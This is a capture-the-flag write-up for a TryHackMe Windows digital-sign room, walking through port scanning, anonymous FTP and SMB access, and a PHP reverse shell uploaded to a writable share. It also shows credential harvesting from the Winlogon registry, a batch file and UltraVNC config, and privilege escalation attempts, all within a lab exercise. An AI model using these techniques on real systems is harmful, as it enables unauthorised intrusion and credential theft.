

# AllSignsPoint2Pwnage

A room that contains a rushed Windows based Digital Sign system. Can you breach it?

https://tryhackme.com/room/allsignspoint2pwnage



___

## Nmap
As always I will start out with an nmap scan on all TCP ports. 

```console
┌──(viorage㉿kali)-[~/Tryhackme/AllThings]
└─$ sudo nmap -p- --min-rate=6000 10.10.84.22                                                                                                                                   130 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-21 08:48 EDT
Warning: 10.10.84.22 giving up on port because retransmission cap hit (10).
sendto in send_ip_packet_sd: sendto(4, packet, 44, 0, 10.10.84.22, 16) => Operation not permitted
Offending packet: TCP 10.13.18.86:64110 > 10.10.84.22:41206 S ttl=53 id=11831 iplen=44  seq=3721030232 win=1024 <mss 1460>
sendto in send_ip_packet_sd: sendto(4, packet, 44, 0, 10.10.84.22, 16) => Operation not permitted
Offending packet: TCP 10.13.18.86:64122 > 10.10.84.22:16365 S ttl=39 id=38763 iplen=44  seq=3722340940 win=1024 <mss 1460>
sendto in send_ip_packet_sd: sendto(4, packet, 44, 0, 10.10.84.22, 16) => Operation not permitted
Offending packet: TCP 10.13.18.86:64106 > 10.10.84.22:6719 S ttl=58 id=38846 iplen=44  seq=3721292380 win=1024 <mss 1460>
Nmap scan report for 10.10.84.22
Host is up (0.25s latency).
Not shown: 43490 closed tcp ports (reset), 22031 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5900/tcp  open  vnc
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49670/tcp open  unknown
49678/tcp open  unknown
49682/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 78.72 seconds
```

This looks to be a Windows machine a quick ping is another potential way to verify this as Windows by taking a look at the TTL. Linux is usually 64 and windows is usually around 128/127, here we have 125.

```console
┌──(viorage㉿kali)-[~/Tryhackme/Tech]
└─$ ping 10.10.84.22
PING 10.10.84.22 (10.10.84.22) 56(84) bytes of data.
64 bytes from 10.10.84.22: icmp_seq=2 ttl=125 time=239 ms
64 bytes from 10.10.84.22: icmp_seq=3 ttl=125 time=243 ms
```

Cheat sheet for default TTL's - (I have this in my notes but don't have the link to the original posting, apologies)


___

## Nmap default script and version scan

There are quite a bit of open ports, let's run another nmap scan on all the open ports minus the upper range ephemeral ports

```console
# Nmap 7.92 scan initiated Thu Apr 21 09:04:58 2022 as: nmap -sVC -p 21,80,135,139,443,445,3389,5900 -oN script 10.10.84.22
Nmap scan report for 10.10.84.22
Host is up (0.24s latency).

PORT     STATE SERVICE        VERSION
21/tcp   open  ftp            Microsoft ftpd
| ftp-syst: 
|   STAT: 215
|_Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_11-14-20  04:26PM                  173 notice.txt
80/tcp   open  http           Apache httpd 2.4.46 (OpenSSL/1.1.1g PHP/7.4.11)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.11
|_http-title: Simple Slide Show
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc?
139/tcp  open  netbios-ssn    Microsoft Windows netbios-ssn
443/tcp  open  http           Apache httpd 2.4.46 (OpenSSL/1.1.1g PHP/7.4.11)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.11
|_http-title: 400 Bad Request
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server?
| ssl-cert: Subject: commonName=DESKTOP-997GG7D
| Not valid before: 2022-04-20T12:42:29
|_Not valid after:  2022-10-20T12:42:29
5900/tcp open  vnc            VNC (protocol 3.8)
Service Info: Hosts: localhost, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 21 09:09:14 2022 -- 1 IP address (1 host up) scanned in 255.82 seconds
```

Question
> Q. How many TCP ports under 1024 are open? = **6**
___

## FTP Port 21
It looks like FTP allows anonymous login let's give it a go!

```console
┌──(viorage㉿kali)-[~/Tryhackme/AllThings]
└─$ ftp 10.10.84.22 21                                                                                                  
Connected to 10.10.84.22.
220 Microsoft FTP Service
Name (10.10.84.22:viorage): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49884|)
150 Opening ASCII mode data connection.
11-14-20  04:26PM                  173 notice.txt
226 Transfer complete.
ftp> 
```

I transfered notice.txt back to my local machine and opened the note. It gives us a clue that the FTP images moved to a hidden windows file share for upload and management.

```console
NOTICE
======

Due to customer complaints about using FTP we have now moved 'images' to 
a hidden windows file share for upload and management 
of images.

- Dev Team 
```

___

## SMB Port 445

With our hint from the note, it seems like a good idea to dig into SMB shares and see if we have any access.

#### CrackMapExec

Running cme gives us the hostname ```DESKTOP-997GG7D``` and the Windows Build ```Windows 10.0 Build 18362 x64```. If this were a pentest smb signing is set to ```False``` which would be marked as a vulnerability. This can lead to MITM attacks.

```console
┌──(viorage㉿kali)-[~/Tryhackme/AllThings]
└─$ cme smb 10.10.84.22  
SMB         10.10.84.22     445    DESKTOP-997GG7D  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-997GG7D) (domain:DESKTOP-997GG7D) (signing:False) (SMBv1:False)
```

#### SMBClient

I attempted to enumerated shares with cme but I was given an error so I tried using smbclient which gave me better results. It looks like images$ and Users might be worth taking a look.

```console
┌──(viorage㉿kali)-[~/Tryhackme/AllThings]
└─$ cme smb 10.10.84.22 -u '' -p '' --shares
SMB         10.10.84.22     445    DESKTOP-997GG7D  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-997GG7D) (domain:DESKTOP-997GG7D) (signing:False) (SMBv1:False)
SMB         10.10.84.22     445    DESKTOP-997GG7D  [-] DESKTOP-997GG7D\: STATUS_ACCESS_DENIED 
SMB         10.10.84.22     445    DESKTOP-997GG7D  [-] Error enumerating shares: Error occurs while reading from remote(104)
                                                                                                                                                                                      
┌──(viorage㉿kali)-[~/Tryhackme/AllThings]
└─$ smbclient -L 10.10.84.22                              
Enter WORKGROUP\viorage's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        images$         Disk      
        Installs$       Disk      
        IPC$            IPC       Remote IPC
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.84.22 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

___

## Images$ Share
After mounting to the share there were a bunch of .jpg files, which aren't too interesting. I attempted to write to the share with ```put notice.txt``` and was successful.

With write privileges, we can possibly add a reverse shell, but we will have to find access to the files. I'm thinking I should check out the web sites next.


> Q. What is the hidden share where images should be copied to? **images$**

___

## User Share
However, while we are here let's take a look at the Users share. Nothing interesting was found.

```console
┌──(viorage㉿kali)-[~/Tryhackme/AllThings]
└─$ smbclient \\\\10.10.84.22\\Users  
Enter WORKGROUP\viorage's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Sat Nov 14 10:35:50 2020
  ..                                 DR        0  Sat Nov 14 10:35:50 2020
  Default                           DHR        0  Sat Nov 14 08:05:37 2020
  desktop.ini                       AHS      174  Tue Mar 19 00:49:34 2019

                10861311 blocks of size 4096. 4118964 blocks available
smb: \> put notice.txt
NT_STATUS_ACCESS_DENIED opening remote file \notice.txt
```

___

## HTTP Port 80/443

Attempting to browse to port 80's home page redirects us to https on port 443. At first, it just had the following splash page via HTML. However, after a few seconds a slideshow begins.


I checked the source code and notice a contents.php page and a function that will display images at intervals and browsed to that URL.

```html
<html>
	<head>
		<title>Simple Slide Show</title>
		<script src="[jquery-3.5.1.min.js](view-source:http://10.10.84.22/jquery-3.5.1.min.js)"></script>
		<style>
			body { background: black; margin-top: 2%;}
		</style>
	</head>
	<body>
		<div id="main"><center></center></div>

	</body>
<script>
// Lets Get the URL of the host
var server = location.protocol + "//" + location.host;
// Lets use the server URL to locate content.php that will give us the JSON string
$.get( server + '/content.php',function(data){
	// Let get the legnth of the string minus the dummy entry
	mc = data.length;
	// Out loop time will be 10s x the number of images
	loop = ( mc - 1 ) * 10000;
	// Set the reload timeout 
	setTimeout(function() { location.reload() }, loop );
	// Loop through the images
	for (i = 0; i < data.length; i++) {
		changeImage(data[i].image,i);
	}
},'json');
// This will display the images at intervals
async function changeImage(i,t){
	o = t * 10000;
	await setTimeout(function(){$('#image').attr('src','/images/' + i )}, o) ;
}
</script>
</html>
```

The content page is pulling the images from the share that is available to mount.


___

## Reverse Shell
After some failed attempts with common php reverse shells, I ran a search for Windows php shells and found this https://github.com/ivan-sincek/php-reverse-shell.git


Let's modify the script by adding our IP address and port.


Now we need to copy the shell to the open SMB image$ share, start a netcat listener, and browse to our target IP. When the screen show pulls our image, our shell is born.

```console
└─$ smbclient //10.10.252.40/images$                                                                                                                              1 ⨯
Enter WORKGROUP\viorage's password: 

Try "help" to get a list of possible commands.
smb: \> 
smb: \> put php_reverse_shell.php
putting file php_reverse_shell.php as \php_reverse_shell.php (1.1 kb/s) (average 1.1 kb/s)
smb: \> dir
  .                                   D        0  Fri Apr 22 08:37:48 2022
  ..                                  D        0  Fri Apr 22 08:37:48 2022
  internet-1028794_1920.jpg           A   134193  Sun Jan 10 16:52:24 2021
  man-1459246_1280.png                A   363259  Sun Jan 10 16:50:49 2021
  monitor-1307227_1920.jpg            A   691570  Sun Jan 10 16:50:29 2021
  neon-sign-4716257_1920.png          A  1461192  Sun Jan 10 16:53:59 2021
  php_reverse_shell.php               A     9302  Fri Apr 22 08:37:48 2022

                10861311 blocks of size 4096. 4139955 blocks available
smb: \> 
```

Shell - 


You might notice I use a .zshrc alias for my listener. This alias is simply for a windows listener using rlwrap and netcat.

```bash
alias wlistener="sudo rlwrap nc -lvnp 443"
```

___

## Initial Access

With access we can answer a few of the questions.


> Q. What user is signed into the console session? **desktop-997gg7d\sign aka sign**


> Q. What hidden, non-standard share is only remotely accessible as an administrative account? **Installs$**


> Q. What is the content of user_flag.txt? **thm{Redacted}**

___

## Pwnage

#### User Password
There are a lot of roads we can here but we are given a hint to find the users password "The user is automatically logged into the computer". Automatic login details are stored in the ```Winlogin``` registry ```# HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon```.  https://renenyffenegger.ch/notes/Windows/registry/tree/HKEY_LOCAL_MACHINE/Software/Microsoft/Windows-NT/CurrentVersion/Winlogon/index


We can query that registry with ```reg query``` to find the users password.


> Q. What is the Users Password? **Redacted**

___

#### Admin Password

The next question is related to the ```Adminsistrators``` password so let's see what we can find. After some messing around for a bit I remembered about the `Installs` share and I noticed the Installs directory in C:.

I found some executables and .bat scripts. I was able to read ```Install_www_and_deploy.bat``` which housed the administrators password ```Redacted```


> Q. What is the Administrators Password? **Redacted**

We can also see what `exe` is used to run the installer in the same file.

> Q. What executable is used to run the installer with the Administrator username and password? **psexec.exe**

___

#### VNC Password

Our next step looks to be finding the VNC password with the hint ```There are a few versions but some do not work. The version here is known to work: http://aluigi.altervista.org/pwdrec.htm```

I'm not exactly sure what this means yet but there is a ```.ini``` untravnc file in the same directory. There are two passwords in the file but they look to be encoded. Now the hint above will come in handly.


Download and install the tool on a Windows and you can easily decode the passwords.

```cmd
vncpwd.exe Redacted
vncpwd.exe Redacted
```

However, after doing it this way I realized it would have been better to simply download the tool on my Kali machine and upload it to the target, then you could run it against the ```.ini``` file

```cmd
vncpwd.exe ultravnc.ini
```

> Q. What is the VNC Password? **Redacted**
___

## Privilege Escalation

#### PrintSpoofer fail
From the first command I ran on the box ```whoami /all``` I noticed we had SeImpersonatePrivilege token enabled which is usually an insta-win with the Potato exploits and the newer PrintSpoofer exploit. Fantastic article https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/

We can go to itm4n's github to download the exploit --> https://github.com/itm4n/PrintSpoofer/releases

Note: My VPN went down so I had to restart everything

Next we can upload the `PrintSpoofer64` executable by mounting to the open smbshare.

```console
┌──(viorage㉿kali)-[~/…/Tech/php-reverse-shell/src/reverse]
└─$ smbclient \\\\10.10.99.25\\images$
Enter WORKGROUP\viorage's password: 
Try "help" to get a list of possible commands.
smb: \> put php_reverse_shell.php
putting file php_reverse_shell.php as \php_reverse_shell.php (7.7 kb/s) (average 7.7 kb/s)
smb: \> dir
  .                                   D        0  Fri Apr 22 09:58:02 2022
  ..                                  D        0  Fri Apr 22 09:58:02 2022
  internet-1028794_1920.jpg           A   134193  Sun Jan 10 16:52:24 2021
  man-1459246_1280.png                A   363259  Sun Jan 10 16:50:49 2021
  monitor-1307227_1920.jpg            A   691570  Sun Jan 10 16:50:29 2021
  neon-sign-4716257_1920.png          A  1461192  Sun Jan 10 16:53:59 2021
  php_reverse_shell.php               A     9302  Fri Apr 22 09:58:02 2022
  PrintSpoofer64.exe                  A    27136  Fri Apr 22 09:57:19 2022

                10861311 blocks of size 4096. 4142259 blocks available
smb: \> 
```


I ran the exploit several times but it failed for me.


___

## PsExec

#### Fail #2
I really don't want to mess with VNC so let's simpy try psexec with the password we have. If you remember we had PsExec used by the Admin in our .bat file from earlier and it's in the Installs directory. This failed as well

```cmd
c:\Installs>PsExec.exe \\10.10.99.5 -u Administrator -p redacted -accepteula

---snip---

Error codes returned by PsExec are specific to the applications you
execute, not PsExec.

```


## VNCViewer

Let's try VNCViewer

```console
┌──(viorage㉿kali)-[~/…/Tech/php-reverse-shell/src/reverse]
└─$ xvncviewer -quality 1 10.10.99.25                                                                                                                             1 ⨯
Connected to RFB server, using protocol version 3.8
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "desktop-997gg7d ( 10.10.99.25 ) - service mode"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
```

Once connected I tried several UAC bypasses to try to spawn a system or at least a high integrity level shell but everything failed. I finally succeeded with the following
- open user_flag.txt on the sign users desktop
- Replace the text with ````runas /user:administrator cmd.exe```
- Save the file as `admin.bat`
- Double click the file and paste the password, which will spawn a system shell...FINALLY!


___

## Thanks for reading and apologies for all the fails.

